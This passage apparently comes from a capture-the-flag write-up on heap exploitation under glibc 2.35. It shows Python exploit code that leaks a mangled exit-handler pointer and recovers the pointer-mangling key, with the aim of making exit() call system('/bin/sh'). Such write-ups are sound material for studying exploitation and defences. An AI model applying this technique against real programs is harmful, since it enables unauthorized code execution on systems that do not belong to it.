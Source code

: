 Our goal is to create an `exit_function_list`, with an `exit_function` that calls `system("/bin/sh")`. We can do that on the heap, and since we have a heap leak its trivial to refer to our fake `exit_function_list`. But there are a few obstacles we need to overcome at this stage.

`glibc-2.35` uses `pointer mangling` to make it troublesome to pass function pointers, and makes the exploitation process a lot harder. The original function pointer is XORed with a secret key, and RORed by 0x11 bits. We need that secret key in order to encode our own function pointers and get code execution.

We will retrieve the key in the following way; The address of the function called by `exit_funcs` is known, since we can just step through `__run_exit_handlers()` with gdb, and see the `un-mangled` pointer. That function is `fflush()`, and it's not standard. But with a closer look, we can see it being registered in the `setup()` function.

```C
void setup(void)
{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  atexit(fflush); // <---
  return;
}
```

If we leak the `mangled` function pointer, we can get the key. This is exactly what we will do.

```python
# helpers
rol64 = lambda val, r_bits: \
      (val << r_bits%64) & (2**64-1) | \
      ((val & (2**64-1)) >> (64-(r_bits%64)))

ror64 = lambda val, r_bits: \
      ((val & (2**64-1)) >> r_bits%64) | \
      (val << (64-(r_bits%64)) & (2**64-1))

# "initial" is the exit_function_list originally called
# look through with gdb
initial = libc.sym.initial
initial_func = libc.sym.fflush
print(f'initial @ {hex(initial)}')

# read mangled initial_func ptr
# and retrieve the key comparing with original ptr
# https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.c
# __run_exit_handlers() source code
# step through it with gdb and get demangled func ptr
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
# initial+56 contrains the mangled fflush pointer
alloc(26, data=p64(initial+56)+p64(0)+p64(8)+b'\x01\x01')
mangled_initial_func = u64(view(idx, len=8))
print(f'mangled initial func ptr = {hex(mangled_initial_func)}')
key = ror64(mangled_initial_func, 0x11) ^ initial_func
print(f'key = {hex(key)}')
```
